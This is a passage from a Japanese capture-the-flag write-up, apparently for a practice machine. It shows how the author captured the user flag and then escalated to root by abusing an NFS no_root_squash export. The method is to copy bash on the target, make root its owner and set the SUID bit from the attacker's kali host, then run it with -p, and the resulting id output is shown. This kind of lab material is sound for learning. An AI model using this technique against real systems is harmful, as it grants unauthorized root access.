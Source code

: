 ```sh
-rw-r--r-- 1 kali kali  312 Nov  9  2019 .bashrc
drwx------ 2 kali kali   61 Nov  8  2020 .ssh
-rw------- 1 kali kali   38 Nov 18  2020 user.flag
```

ユーザーフラグゲット。  
SSH 秘密鍵が入っているので、セーブポイントを確保して一安心。

## 権限昇格２

まず、ターゲット上で bash をコピーする。この時点で、james オーナーとなる。

```sh
[james@ip-10-10-19-34 ~]$ cp /usr/bin/bash ./
```

kali 上で root オーナーに変更し、SUID を付ける。

```sh
$ sudo chown root ./bash
$ sudo chmod +s ./bash
```

root シェル取得成功。

```sh
[james@ip-10-10-19-34 ~]$ ./bash -p
bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) groups=1000(james)
```

## 振り返り

- Web 侵入は簡単。そのため Medium にしては簡単だったというのが全体的な印象。
- SSH トンネリングを通して NFS マウントするのが難しかった点。
- no_root_squash といえばコンパイルが必要なものだと思い込んでいたので、ターゲット上で bash コピー、kali 上で root オーナー化と SUID 付与をする手順は非常に勉強になった。
